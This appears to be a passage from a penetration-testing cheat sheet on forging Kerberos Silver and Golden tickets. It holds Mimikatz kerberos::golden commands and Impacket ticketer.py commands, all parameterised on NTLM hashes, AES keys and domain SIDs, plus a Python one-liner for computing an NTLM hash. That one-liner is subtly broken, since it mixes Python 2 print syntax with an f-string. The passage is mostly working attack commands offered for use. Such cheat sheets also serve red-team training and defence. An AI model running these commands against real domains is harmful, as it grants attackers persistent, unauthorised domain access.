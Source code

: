 ### Using [Mimikatz](https://github.com/gentilkiwi/mimikatz)

```bash
# To generate the Silver Ticket with the NTLM hash
kerberos::golden /domain:$domain /sid:$domain_sid /rc4:$ntlm_hash /user:$user /service:$service_name /target:$service_machine_hostname

# To generate the Siver ticket with an AES 128 key
kerberos::golden /domain:$domain /sid:$domain_sid /aes128:$aes128_key /user:$user /service:$service_name /target:$service_machine_hostname

# To generate the Siver ticket with an AES 256 key (default by Microsoft)
kerberos::golden /domain:$domain /sid:$domain_sid /aes256:$aes256_key /user:$user /service:$service_name /target:$service_machine_hostname
```

## Golden ticket

Create a unlimited use ticket.  It will be valid until the krbtgt password is changed or TGT expires. Tickets must be used right after created.  Follow the same instructions as above to use.

### Using [Impacket](https://github.com/SecureAuthCorp/impacket) ticketer.py

```bash
# To generate the Golden Ticket with the NTLM hash
python ticketer.py -nthash $ntlm_hash -domain-sid $domain_sid -domain $domain $user_name

# To generate the Golden ticket with an AES key
python ticketer.py -aesKey $aes_key -domain-sid $domain_sid -domain $domain $user
```

### Using [Mimikatz](https://github.com/gentilkiwi/mimikatz)

```bash
# To generate the Golden Ticket with the NTLM hash
kerberos::golden /domain:$domain /sid:$domain_sid /rc4:$ntlm_hash /user:$user

# To generate the Golden ticket with an AES 128 key
kerberos::golden /domain:$domain /sid:$domain_sid /aes128:$aes128_key /user:$user

# To generate the Golden ticket with an AES 256 key (default by Microsoft)
kerberos::golden /domain:$domain /sid:$domain_sid /aes256:$aes256_key /user:$user
```

## Misc

### Get NTLM hash from password

```python
python3 -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", f"{password}".encode("utf-16le")).digest())'
```
